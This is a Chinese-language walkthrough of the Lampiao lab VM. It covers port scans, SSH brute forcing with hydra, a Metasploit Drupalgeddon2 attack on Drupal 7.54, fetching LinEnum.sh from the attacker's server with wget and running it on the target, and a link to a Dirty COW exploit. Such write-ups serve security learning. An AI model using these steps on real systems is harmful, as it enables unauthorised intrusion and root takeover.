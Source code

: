 ```yaml
---
title: Lampiao（dirtycow）
categories:
- training
tags:
- training
- cms
---
```

[参考资料：linux 提权脚本](https://www.freebuf.com/sectool/121847.html)

---

info
```
22/tcp open  ssh OpenSSH 6.6.1p1 Ubuntu
80/tcp open  http
OS details: Linux 3.2 - 4.8
```

关于80端口，肯定有防火墙之类的东东==
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/1.PNG)

dirbuster、nikto、nmap、unicornscan找不到任何信息。除了浏览器直接访问80端口，返回了一个页面，It's easy，个鬼啊！！！

最神奇的是只要burp一挂代理，目标机就没有响应了，一关代理，就返回It's easy的页面。感觉好像被靶机作者调戏了。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/12.PNG)
em...应该是连接80端口，就会发送回这个字符画。

我不想爆破ssh了，看wp吧==
看大佬表演。。
## 思路一（爆破ssh）
用nmap -p- -Pn -vv ip 扫描将近一个小时，65535个端口，可以发现1898端口开放。
根据这个端口生成一个字典，hydra爆破即可获得shell。
dirtycow exp运行一下，即可得到root权限。

cewl -w dict.txt http://192.168.11.131:1898/?q=node/1
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.133 ssh

好无聊，爆破什么的没有美感~~

## 思路二（cms漏洞命令执行）
#### 1898-http
该端口开放http服务，页面下方显示drupal
robots.txt提示了，`http://ip:1898/CHANGELOG.txt`
更新版本为Drupal 7.54

#### 查找可用exploit
Drupal < 7.58 - 'Drupalgeddon3'  Remote Code
```
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOST ip
set RPORT 1898
run
shell
```
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/2.PNG)

#### msf导入载荷
在用metasploit找不到可用漏洞的模块情况下，可以在`https://www.exploit‐db.com/` 上搜索并保
存。
然后在/root/.msf4/modules/exploits/ 目录下新建一个自定义目录，并在该目录下存放你的msf
模块。
例如，新建/root/.msf4/modules/exploits/new ,并在该目录下存放1234.rb模块。

#### 寻找可用exp的bash脚本
[LinEnum.sh](https://github.com/rebootuser/LinEnum)，用这个提权脚本搜集可用信息。
```
kali执行：
#python -m SimpleHTTPServer
----------------
反弹shell执行：
cd /tmp
wget http://192.168.1.128:8000/LinEnum.sh
chmod a+x LinEnum.sh
./LinEnum.sh > log.txt
```
运行了提权检查脚本以后，发现输出实在太多了，而且多数是没有什么意义的输出，例如error,xxxx

如果是我来设计提权脚本，我尝试了99种，失败了98种提权尝试，那么我会输出一种可能的提权方式，而不是98失败+1成功。

---

[linux-exploit-suggester.sh](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)

dirty cow,exp :https://www.exploit-db.com/download/40847.cpp
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/3.PNG)


